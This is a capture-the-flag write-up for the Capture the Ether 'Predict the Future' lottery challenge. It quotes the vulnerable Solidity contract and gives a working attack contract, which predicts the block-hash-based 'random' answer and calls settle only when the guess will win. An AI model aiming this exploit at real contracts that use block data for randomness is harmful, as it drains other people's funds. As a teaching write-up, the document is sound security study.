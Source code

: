 # Predict the future

## Challenge

Source: https://capturetheether.com/challenges/lotteries/predict-the-future/

>This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.
>
>Note that it is indeed possible to solve this challenge without losing any ether.

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Solution

This challenge separates guess placement from the ether settlement process. To ```lockInGuess``` the puzzle requires a payment of one ether. The ```lockInGuess``` function also assigns 3 state variables: the ```guesser``` is the address making the guess, the ```n``` value is the guess, and ```settlementBlockNumber``` is the transaction's block number plus one.

The settlement process requires the function caller to satisfy three conditions prior to receiving a transfer of ```2 ether```:
- The ```settle``` function call must be from the same address that made the guess
- The block number of the ```settle``` transaction must be greater than the ```lockInGuess``` transaction block
- The ```settle``` function regenerates a new ```answer``` to memory which is then checked against the function caller's guess value in contract state storage.

To solve this puzzle, we deploy an attack contract of our own which will include its own ```require()``` statements to check for these conditions prior to sending the message call. This process is a bit tedious and will require a bit of luck. I got it on the 5th try. Then replicated it and didn't get to make the call again for over 10 minutes.

Here is my Solidity contract solution, with notes:

```
pragma solidity ^0.4.24;

// interface referenced in the 'pull' contract
interface PredictTheFutureChallenge {
    function lockInGuess(uint8 n) public payable;
    function settle() public;
}

contract pull {
    address owner;

    // instantiate
    PredictTheFutureChallenge public predictFuture;

    // establish ownership of contract at deployment transaction
    constructor() public payable {
        owner = msg.sender;
    }

    // step 1: find contract address of vulnerable contract and input here
    function PredictTheFutureChallengePull(address _predictFuture) public {
        predictFuture = PredictTheFutureChallenge(_predictFuture);
    }

    // step 2: send 1 ether with this transaction along with guess of zero
    // I picked zero (can be any number between 0 - 9, inclusive)
    function futureGuesser() public payable {
        predictFuture.lockInGuess.value(msg.value)(0);
    }

    // step 3: submit this guy over and over until you get it right
    // revert should return any unspent gas, so it's not free but still cheap...
    function settlement() public {
        uint8 settleGuess = uint8(keccak256(blockhash(block.number - 1), now)) % 10;
        require(settleGuess == 0);
        predictFuture.settle();
    }

    // step 5: withdraw funds from pull contract back to externally owned address
    function withdraw() public {
        require(owner == msg.sender);
        msg.sender.transfer(address(this).balance);
    }

    // step 4: funds are automatically sent to
    // fallback function from vulnerable contract
    function() public payable {
    }

}
```
